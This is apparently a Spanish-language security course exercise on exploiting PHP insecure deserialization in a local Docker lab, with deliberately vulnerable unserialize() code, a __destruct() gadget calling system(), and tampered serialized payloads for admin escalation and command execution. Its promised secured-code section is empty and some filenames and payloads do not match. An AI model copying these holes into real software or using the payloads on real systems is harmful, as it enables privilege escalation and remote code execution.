

# PPS-Unidad3Actividad-DeserializacionInsegura
Explotación y Mitigación de vulnerabilidad de Deserialización Insegura
Tenemos como objetivo:

> - Ver cómo se pueden hacer ataques de Deserialización insegura.
>
> - Analizar el código de la aplicación que permite ataques de Deserialización insegura.
>
> - Explorar la deserialización insegura y mitigarlo con JSON
>
> - Implementar diferentes modificaciones del codigo para aplicar mitigaciones o soluciones.

## ¿Qué es Unsafe Deserialization?
---

La deserialización insegura ocurre cuando una aplicación carga objetos serializados sin validación, lo que permite que un atacante modifique los datos y ejecute código arbitrario.

Impacto de la Deserialización Insegura:

• Escalada de privilegios (ejemplo: convertir un usuario normal en administrador).

• Ejecución de código remoto (RCE) si la aplicación permite __wakeup() o __destruct().

• Modificación de datos internos en la aplicación.

## ACTIVIDADES A REALIZAR
---
> Lee detenidamente la sección de vulnerabilidades de subida de archivos.  de la página de PortWigger <https://portswigger.net/web-security/deserialization>
>
> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Remote Code Execution](./files/ExplotacionYMitigacionDeserializacionInsegura.pdf)
> 

Vamos realizando operaciones:

### Iniciar entorno de pruebas

-Situáte en la carpeta de del entorno de pruebas de nuestro servidor LAMP e inicia el esce>

~~~
docker-compose up -d
~~~

## Código vulnerable
---

Crear el archivo vulnerable: deserialize.php

~~~
<?php
	class User {
		public $username;
		public $isAdmin = false;
	}
	$data = unserialize($_GET['data']);
	if ($data->isAdmin) {
		echo "¡Acceso de administrador concedido!";
	}
?>
~~~
El código deserializa datos de usuario sin validación (unserialize($_GET['data'])) y permite modificar el objeto y otorgar privilegios no autorizados.

Para mostrar las variables del objeto serializado vamos a crear un archivo con nombre **MostrarObjeto.php** con el siguiente contenido:
~~~
<?php
class User {
    public $username;
    public $isAdmin = false;
    public $cmd;

    public function __destruct() {
        if ($this->isAdmin && !empty($this->cmd)) {
            echo "<pre>Ejecutando comando: {$this->cmd}\n";
            system($this->cmd);
            echo "</pre>";
        }
    }
}

if (isset($_GET['data'])) {
    $data = $_GET['data'];
    $obj = @unserialize($data);

    echo "<h3>Objeto deserializado:</h3>";
    echo "<pre>";
    print_r($obj);
    echo "</pre>";

    // Opcional: forzar destrucción
    unset($obj);
} else {
    echo "No se proporcionó ningún dato.";
}
?>

~~~
~~~
<?php
class User {
    public $username;
    public $isAdmin = false;
}

if (isset($_GET['data'])) {
    $data = $_GET['data'];
    $obj = @unserialize($data);

    echo "<h3>Datos del objeto (sin validación):</h3>";
    echo "<pre>";
    print_r($obj);
    echo "</pre>";
} else {
    echo "No se proporcionó ningún dato.";
}
?>
~~~

También vamos a crear un archivo con nombre GenerarObjeto.php
~~
<?php
class User {
    public $username;
    public $isAdmin = false;
}

$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required>  

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select>  

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea>  

        

            <strong>Enlace para probar:</strong> 
            <a href="MostrarObjeto.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        

    <?php endif; ?>
</body>
</html>

**¿Qué te permite hacer esto?**

- Crear objetos User con isAdmin = true o false.

- Ver la cadena serializada.

- Probar directamente el exploit en tu script MostrarObjeto.php (o el que verifica isAdmin).

Vemos como el objeto serializado sería: `O:4:"User":2:{s:8:"username";s:4:"Raul";s:7:"isAdmin";b:0;}`

y nos dá el enlace parar probarlo, enviándolo a MostrarObjeto.php

`http://localhost/MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A0%3B%7D`

~~~
### Explotación de Deserialización Insegura
---

Por lo tanto a la hora de intercambiar objetos entre diferentes módulos, pasamos el objeto serializado.

Esto puede ser utilizado por atacantes, para enviar a nuestros códigos PHP la seriealización modificada.
 

**Crear un objeto malicioso en PHP**

Como podemos ver, del enlace generado, cualquier persona puede saber, el nombre del tipo de objetos, variables y valores que tienen.

Por ejemplo, el usuario Raul podría:

**1 - Modificar la serialización**

El objeto serializado es: MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A**0**%3B%7D

Cambiar los datos del valor IsAdmin:

MostrarObjeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A4%3A%22Raul%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A**1**%3B%7D 

Raul podría haber cambiado su estado, convirtiéndose en administrador.

**2 - Crear un archivo para crear la serialización con los datos que desee**

Crear el archivo **HackerAdmin.php**  y ejecutar este código en la máquina atacante:

~~~
<?php
class User {
	public $username = "hacker";
	public $isAdmin = true;
}
echo urlencode(serialize(new User()));
?>
~~~

Salida esperada (ejemplo):

- Copiar la salida obtenida

- Acceder a esta URL en el navegador `http://localhost/MostrarObjdeto.php?data=` y concatenarla con el código obtenido:

Al mandarlo, tendríamos el mismo resultado, Hacker se convierte en `Admin`.

~~~
http://localhost/MostrarObjdeto.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
~~

**Intentar RCE con __destruct()**

Si la clase User tiene un método __destruct(), se puede abusar para ejecutar código en el servidor.

Aquí tenemos nuestra clase modificada con Destruct(). Crea el fichero **GenerarObjeto1.php

~~~
<?php
class User {
    public $username;
    public $isAdmin = false;
    public $cmd;

    public function __destruct() {
        if ($this->isAdmin && !empty($this->cmd)) {
            echo "<pre>Ejecutando comando: {$this->cmd}\n";
            system($this->cmd);
            echo "</pre>";
        }
    }
}
$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required>  

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select>  

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea>  

        

            <strong>Enlace para probar:</strong> 
            <a href="MostrarObjeto.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        

    <?php endif; ?>
</body>
</html>

~~~

Este cambio introduce:

- Una nueva propiedad $cmd que contendrá el comando a ejecutar.

- El método __destruct() que se dispara automáticamente al final del script (cuando el objeto es destruido), lo que lo hace perfecto para ilustrar la explotación por deserialización.
~~~

class Exploit {
	public $cmd;
	public function __destruct() {
		system($this->cmd);
	}
}
~~~

VAmos a modificar el objeto malicioso para introducir un código a ejecutar. Este archivo lo llamo *explotarGenerarObjeto1.php**:

~~~
<?php
class User {
    public $username;
    public $isAdmin = false;
    public $cmd;

    public function __destruct() {
        if ($this->isAdmin && !empty($this->cmd)) {
            // ⚠️ Ejecución insegura de código del sistema
            echo "<pre>Ejecutando comando: {$this->cmd}\n";
            system($this->cmd);
            echo "</pre>";
        }
    }
}

$serialized = '';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $user = new User();
    $user->username = $_POST['username'] ?? 'anon';
    $user->isAdmin = ($_POST['isAdmin'] ?? '0') === '1';
    $user->cmd = $_POST['cmd'] ?? '';

    $serialized = serialize($user);
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Generador de Objeto Serializado</title>
</head>
<body>
    <h2>Generar objeto serializado con código ejecutable</h2>
    <form method="post">
        <label>Nombre de usuario:</label>
        <input type="text" name="username" required>  

        <label>¿Administrador?</label>
        <select name="isAdmin">
            <option value="0">No</option>
            <option value="1">Sí</option>
        </select>  

        <label>Comando a ejecutar (ej: <code>whoami</code>):</label> 
        <input type="text" name="cmd" size="50">  

        <button type="submit">Generar</button>
    </form>

    <?php if ($serialized): ?>
        <h3>Objeto serializado:</h3>
        <textarea cols="80" rows="4"><?= htmlspecialchars($serialized) ?></textarea>  

        

            <strong>Enlace para probar:</strong> 
            <a href="MostrarObjeto.php?data=<?= urlencode($serialized) ?>" target="_blank">
                MostrarObjeto.php?data=<?= htmlspecialchars(urlencode($serialized)) ?>
            </a>
        

    <?php endif; ?>
</body>
</html>
~~~

🧪 Para la prueba

1. Marca "Sí" en la opción de administrador.

2. Escribe un comando como whoami, ls -l, id, etc.

3. Se serializa el objeto incluyendo ese comando.

4. Al deserializarlo en MostrarObjeto.php, se ejecuta automáticamente en el __destruct().

Ejemplo de salida:
O%3A7%3A%22Exploit%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A2%3A%22id%22%3B%7D
Enviar este payload a la aplicación:
http://localhost/deserialize.php?data=O%3A7%3A%22Exploit%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A
2%3A%22id%22%3B%7D
Si la aplicación es vulnerable y ejecuta system(), se puede ejecutar comandos en el servidor. En nuestro caso
ejecuta whoami devolviendo www-data
---

Aquí está el código securizado:

🔒 Medidas de seguridad implementadas

- :

        - 

        - 

🚀 Resultado

✔ 

✔ 

✔ 

## ENTREGA

> __Realiza las operaciones indicadas__

> __Crea un repositorio  con nombre PPS-Unidad3Actividad6-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

> __Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__

